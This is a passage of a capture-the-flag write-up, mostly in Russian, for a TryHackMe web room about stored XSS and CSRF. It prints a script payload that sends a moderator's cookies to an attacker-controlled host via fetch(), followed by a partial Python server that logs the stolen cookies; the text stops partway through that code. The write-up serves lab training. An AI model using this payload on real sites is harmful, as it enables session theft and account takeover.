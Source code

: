 # WriteUp 'Whats Your Name?'

*   **Author:** VIVI
*   **Link:** [Whats Your Name?](https://tryhackme.com/room/whatsyourname)

## 🧠 Analysis

Описание данной комнаты: 

Utilise your client-side exploitation skills to take control of a web app.
This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks.

Комната проверяет навыки эксплуатации CSRF/XSS
## 🔍 Enumeration

Нужно в хосты прописать:

IP worldwap.thm

При переходе на домен сразу открывается web-морда, более детальную разведку проводить не стал, зная уже чего от меня тут будут ждать

## 🧩 Exploitation

### Flag 1.

Попав на форму регистрации, обнаруживаю поле, потенциально уязвимое для XSS
<img width="1919" height="760" alt="image" src="https://github.com/user-attachments/assets/5281d8bc-16cb-472f-9da4-6de59c088032" />

Судя по надписи над формой "Your details will be reviewed by the site moderator." подозреваю что это будет Stored XSS

Первая же возникшая идея, украсть куки модератора для дальнейшей авторизации.

Payload: 
```
<script>
fetch('http://IP:8000/steal?cookie=' + document.cookie);
</script>
```
Python сервер для принятия cookie:
``` server.py
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs
from datetime import datetime
import json

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        # Парсим URL
        parsed_url = urlparse(self.path)
        
        if '/steal' in parsed_url.path:
            # Получаем параметры запроса
            query_params = parse_qs(parsed_url.query)
            
            # Извлекаем cookie
            cookies = query_params.get('cookie', [''])[0]
            
            if cookies:
                # Логируем в файл
                with open('stolen_cookies.txt', 'a', encoding='utf-8') as f:
                    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
```